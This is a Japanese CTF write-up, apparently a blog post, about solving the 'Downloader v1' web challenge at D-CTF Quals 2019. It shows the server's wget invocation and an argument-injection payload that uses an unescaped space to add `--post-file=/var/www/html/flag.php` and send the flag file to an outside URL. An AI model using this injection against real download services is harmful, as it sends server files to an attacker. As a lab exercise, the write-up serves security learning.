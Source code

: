 ```yaml
---
layout: post
title: D-CTF Quals 2019 の write-up
categories: [ctf]
date: 2019-09-14 02:50:00 +0900
---
```


9 月 7 日から 9 月 8 日にかけて開催された [D-CTF Quals 2019](https://dctf.def.camp) に、チーム Harekaze として参加しました。最終的にチームで 1176 点を獲得し、順位は得点 307 チーム中 29 位でした。うち、私は 1 問を解いて 50 点を入れました。

以下、私が解いた問題の write-up です。

## [Web 50] Downloader v1
> Don't you find it frustrating when you have uploaded some files on a website but you're are not sure if the download button works? Me neither. But some people did. Is there even demand for such a service?
> 
> (URL)

与えられた URL にアクセスすると、以下のような HTML が返ってきました。

```html
<!DOCTYPE html>
<html>
<head>
    <title>Downloader v1</title>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css" integrity="sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW/dAiS6JXm" crossorigin="anonymous">
</head>
<body>

<div class="container mt-5">
    <div class="row">
        <div class="col-8 offset-2">
            <h3 class="text-center">File downloader v1</h3>
            <div class="card mt-5">
                <div class="card-header">Specify an URL to download</div>
                <form class="card-body" method="POST">
                                        <div class="form-group">
                        <label>URL to download:</label>
                        <input type="text" name="url" placeholder="http://example.com/image.jpg" value="" class="form-control" >
                    </div>
                    <button type="submit" class="btn btn-primary float-right">Submit</button>
                </form>
                            </div>
        </div>
    </div>
</div>

<!-- <a href="flag.php">###</a> -->

</body>
</html>
```

URL を入力するとダウンロードしてくれるサービスのようです。とりあえず `http://example.com/image.jpg` を入力してみると、以下のような出力が返ってきました。

```
$ cd uploads/5d7bd4c0139dccf764bbd4dbbed5b
$ wget http://example.com/image.jpg 2>&1
--2019-09-13 17:41:20--  http://example.com/image.jpg
Resolving example.com (example.com)... 93.184.216.34, 2606:2800:220:1:248:1893:25c8:1946
Connecting to example.com (example.com)|93.184.216.34|:80... connected.
HTTP request sent, awaiting response... 404 Not Found
2019-09-13 17:41:20 ERROR 404: Not Found.

$ bash -c 'rm uploads/5d7bd4c0139dccf764bbd4dbbed5b/*.{php,pht,phtml,php4,php5,php6,php7}'
```

入力した URL からファイルをアクセス可能な場所にダウンロードし、もし PHP に関連する拡張子を持つファイルがダウンロードされていればそれを削除しています。

`'` や `"`、`$` を含んだ URL を投げると、いずれも `\'` `\"` `\$` のようにエスケープしているのが確認でき、OS コマンドインジェクションの対策がされているように見えます…が、` ` (半角スペース) はエスケープされません。これを利用して、適当な URL に `flag.php` の内容をアップロードさせるようなオプションを付加してみましょう。

`(URL) --post-file=/var/www/html/flag.php a` を投げると、以下のようなボディを持った HTTP リクエストが来ました。

```php
GET ME! <?php /* DCTF{f8ebc33b836f0ac262fef4c18d3b18ed405da41bb4389c0d0fa1a5a997da1af0} */ ?>
```

フラグが得られました。

```
DCTF{f8ebc33b836f0ac262fef4c18d3b18ed405da41bb4389c0d0fa1a5a997da1af0}
```